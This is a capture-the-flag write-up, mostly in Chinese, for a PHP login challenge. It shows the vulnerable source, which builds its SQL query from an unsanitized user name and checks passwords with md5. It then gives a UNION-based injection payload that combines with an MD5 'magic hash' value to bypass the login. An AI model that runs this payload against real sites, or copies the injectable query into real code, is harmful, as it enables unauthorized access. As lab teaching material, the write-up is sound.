 # Challenge 
```php 
<?php
if($_POST[user] && $_POST[pass]) {
	$conn = mysql_connect("********", "*****", "********");
	mysql_select_db("phpformysql") or die("Could not select database");
	if ($conn->connect_error) {
		die("Connection failed: " . mysql_error($conn));
}
$user = $_POST[user];
$pass = md5($_POST[pass]);
$sql = "select pw from php where user='$user'";
$query = mysql_query($sql);
if (!$query) {
	printf("Error: %s\n", mysql_error($conn));
	exit();
}
$row = mysql_fetch_array($query, MYSQL_ASSOC);
//echo $row["pw"];
  if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
	echo "<p>Logged in! Key:************** </p>";
}
else {
    echo("<p>Log in failure!</p>");
  }
}
?>
```
# Solution 
用户名处存在注入。所以思路如下，我们给用户名传入：
```
user=' union select "0e830400451993494058024219903391"
```
构成的sql语句为：
```
select pw from php where user=' ' union select "0e830400451993494058024219903391"
```
第一个查询结果为空，所以结果返回的是我们传入的`0e830400451993494058024219903391`，即此时，$row[pw]=0e830400451993494058024219903391。而md5(QNKCDZO)正是该0e字符串值。

payload:
```
user=' union select "0e830400451993494058024219903391"#&pass=QNKCDZO
```

# Refference
+ [chybeta : 程序逻辑问题](https://chybeta.github.io/2017/07/24/%E5%AE%9E%E9%AA%8C%E5%90%A7-web-writeup/#%E7%A8%8B%E5%BA%8F%E9%80%BB%E8%BE%91%E9%97%AE%E9%A2%98)
